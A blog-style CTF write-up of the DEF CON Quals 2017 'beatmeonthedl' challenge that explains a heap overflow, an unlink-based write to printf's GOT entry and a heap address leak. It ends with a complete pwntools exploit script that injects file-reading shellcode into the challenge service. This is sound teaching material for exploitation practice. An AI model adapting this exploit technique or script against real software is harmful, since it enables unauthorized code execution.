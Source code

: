 ```yaml
---
layout: post
title: "DEF CON Quals 2017: beatmeonthedl"
category: Security
date: 2017-04-30
tags:
  - ctf
  - DEF CON
  - writeup
---
```


I played in the DEF CON quals CTF this weekend, and happened to find the
challenge `beatmeonthedl` particularly interesting, even if it was in the
"Baby's First" category.  (DC Quals Baby's Firsts aren't as easy as one might
think...)

So we download the binary and take a look.  I'm using
[Binary Ninja](https://binary.ninja) lately, it's a great tool from the Vector35
guys, and at the right price compared to IDA for playing CTF.  :)  So I open up
the binary, and notice a few things right away.  This is an x86-64 ELF binary
with essentially none of the standard security features enabled:

~~~
% checksec beatmeonthedl
[+] 'beatmeonthedl'
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
~~~

Easy mode, right?

We'll, let's look at the binary and see if we can find a vulnerability.  Looking
at the binary, we can see it's a pretty typical CTF binary, we can create,
modify, delete, and print some notes.  This has been seen many times in various
forms.

At the beginning there's a little twist, it prompts you for a username
and password.  It's not hard to figure out what these should be, just take a
look at the functions `checkuser` and `checkpass`.  In `checkuser` you can see
that the username should be `mcfly`.  In `checkpass`, it's interesting that the
function copies the user input to an allocated buffer on the heap before
checking the password, and all it checks is that it beings with the string
`awesnap`.  The memory chunk is not freed before continuing, and in fact, if you
fail the login check, you will repeatedly get checks that allow you to continue
writing to segments on the heap.  The copies are correctly bounds-checked, so
there's no memory corruption here.  I'm not sure what the point of copying to
the heap is, as I didn't need it to solve the level.

Let's take a look at the `add_request` function that creates the new request
entries.  Looking through it, we see it allocates a chunk for the request entry
and then reads your request into the allocated chunk.  It took me a moment to
notice that there's something strange about the malloc and the respective read
of the request, but I've highlighted the relevant lines for your ease.

![malloc and read for new requests](/img/blog/dcq-2017/beatmeonthedl_addrequest.png)

Yep, it allocates `0x38` bytes and then reads `0x80` bytes into it.  Well, that
seems opportune, depending on what's past the chunk I'm reading into.  It
doesn't appear that his has any function pointers or vtable pointers (it appears
to be pure C), so nothing like that to overwrite.  Heap metadata corruption is a
thing of the past, right?  Well, if you notice that `malloc` is in blue and
other functions (`printf`, `read`) are in orange, you might realize something.
The malloc implementation being used by this binary is compiled into the
program.  A quick test does, in fact, show that this version of malloc does not
appear to use any validation checks on the heap metadata:

~~~
pwndbg> x/i $rip
=> 0x40656c <free+1096>:	mov    rax,QWORD PTR [rax+0x8]
pwndbg> i r rax
rax            0x41414141425e51a0	0x41414141425e51a0
~~~

So it seems like we can use the `unlink` technique described by [Solar
Designer](http://www.openwall.com/articles/JPEG-COM-Marker-Vulnerability) in
2000 to exploit heap metadata corruption via `free`.  If you're not familiar
with the technique, there's a more digestable version
[here](https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/).
This technique allows you to write one pointer-sized value at one address of
your choosing.  (Obviously, if you want to try to write more than one, you can
sometimes repeat the technique if the circumstances allow.)
Basically, you want to allocate two consecutive blocks, overflow the first into
the second in such a way that the 2nd meets some special properties, and then
free the first chunk, causing the malloc implementation to attempt to coalesce
the two free blocks into a bigger block and `unlink` the old "free" block.  Our
crafted block must:

- Have zero size
- Appear to be free (has the `IN_USE` bit cleared)
- Appear as part of a linked list where the first pointer goes to your target address
  minus one pointer width (e.g., target-8 on x86-64).
- Appear as part of a linked list where the second pointer is the value you want to
  write.

So if we know what we're going to do, we should be done, right?  Well, it's not
quite that simple -- we still need to know what we're going to write, and where
we're going to write it.

A common technique for this is to overwrite a pointer in the Global Offset Table
(GOT).  If you're not familiar with the GOT, I've previously written about
[using the GOT and PLT for
exploitation](/2017/03/19/got-and-plt-for-pwning.html).
Since there is no RELRO (Read-Only Relocations) on this binary, we can apply
this technique here in a straightforward fashion.  We can overwrite any function
that will be called after the `free` occurs.  For this binary, we can use any of
several functions, but both `puts` and `printf` are excellent choices since
they're called in fairly short order (by printing the menu the next time).

So *what* do we write?  Well, we want to point to some shellcode.  But where is
our shellcode?  Since there's not many places to put things on the stack and no
globals, I guess it'll have to be the heap.  We do have ASLR to contend with, so
we need a leak of a heap address.  It took me a while to realize how we could
get this, but then I hit upon it: by creating fragmentation within the heap, the
malloc implementation will have placed pointers for the circular linked list of
free blocks into the free blocks themselves.  Then overflowing an adjacent block
right up to the pointer, and printing the requests, we can get the value of the
pointer.  From that, we can round down to the start of the page and get the
beginning of the heap area.

Finally, we just need to place some shellcode in one of our blocks.  Note that
many (all?) of the DEF CON Quals challenges ran in a seccomp sandbox that
blocked the ability to use `execve`, so we'll have to use a `open/read/write`
shellcode.

Putting it all together (sorry, it's a bit sloppy, didn't have time to clean it
up yet):

~~~
import pwn
from pwnlib.shellcraft import amd64

pwn.context.binary = './beatmeonthedl'

PAD = 'A'*48 + 'B'*8
CHUNK_SIZE = pwn.p64(0)
TARGET_ADDR = 0x609970 # printf@got
TARGET_ADDR_CHUNK = pwn.p64(TARGET_ADDR-24)

proc = None
#proc = pwn.process('./beatmeonthedl')
proc = proc or pwn.remote(
        'beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me',
        6969)

def login():
    proc.recvuntil('username: ')
    proc.sendline('mcfly')
    proc.recvuntil('Pass: ')
    proc.sendline('awesnap')

def menu(n):
    proc.recvuntil('| ')
    proc.sendline(str(n))

pwn.log.info('Login')
login()

pwn.log.info('Create')
for _ in xrange(4):
    menu(1)
    proc.recv()
    proc.sendline('foo')

pwn.log.info('Leak')
menu(3)
proc.recv()
proc.sendline(str(2))
menu(3)
proc.recv()
proc.sendline(str(0))
# alter 1
menu(4)
proc.recv()
proc.sendline(str(1))
proc.recv()
proc.send('Q'*72)
menu(2)
res = proc.recvuntil('3)')
res = res[72+3:-3]
slot_0 = pwn.u64(res+('\0'*(8-len(res))))
print 'Slot 0 probably: {:#08x}'.format(slot_0)

pwn.log.info('Setup chunk')
# reallocate 0
menu(1)
proc.recv()
proc.send('AAAA')

# shellcode in 3
menu(4)
proc.recv()
proc.send(str(3))
proc.recv()
shellcode = '\xeb\x20' + ('\x90'*32)
shellcode += pwn.asm(amd64.cat('flag'))
proc.send(shellcode)

# edit 0 with overwrite
menu(4)
proc.recv()
proc.send(str(0))
proc.recv()
val = (PAD+CHUNK_SIZE+TARGET_ADDR_CHUNK)
target = slot_0+16 + 3*0x40  # target slot 3
print 'Target addr: {:#08x}'.format(target)
val += pwn.p64(target)
proc.send(val)

pwn.log.info('Overwrite')
# trigger free of previous chunk to cause coalescing
menu(3)
proc.recv()
proc.sendline(str(0))

proc.interactive()

pwn.log.info('Exit')
# exit
menu(5)
~~~
